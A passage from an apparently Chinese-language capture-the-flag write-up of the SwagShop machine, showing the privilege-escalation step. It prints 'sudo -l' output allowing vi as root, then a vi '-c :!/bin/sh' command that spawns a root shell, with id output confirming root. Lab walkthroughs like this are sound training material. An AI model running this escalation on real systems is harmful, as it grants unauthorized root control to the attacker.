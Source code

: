 成功！！！

# 提权

查看sudo权限

```
www-data@swagshop:/home/haris$ sudo -l
sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

可以使用vi打开/var/www/html/目录下的任何文件。

我们可以去/var/www/html/目录下创建一个文件，利用vi的-c参数进行提权,我们利用这条指令即可提权，如图显示提权成功,获取到root.txt。

使用下面的命令提权到root。

```
sudo /usr/bin/vi /var/www/html/1 -c ':!/bin/sh' /dev/null
```

```
"/var/www/html/1" [New File]
# /bin/sh

# id
id
uid=0(root) gid=0(root) groups=0(root)
# whoami
whoami
root
```